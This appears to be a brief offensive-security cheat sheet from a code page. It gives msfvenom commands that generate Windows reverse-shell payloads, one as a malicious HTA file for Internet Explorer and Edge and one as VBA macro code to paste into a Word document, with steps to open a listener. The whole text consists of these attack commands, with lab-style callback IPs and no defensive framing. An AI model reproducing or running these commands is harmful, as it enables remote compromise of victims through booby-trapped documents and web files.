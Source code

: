 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save
3. open a listener
```
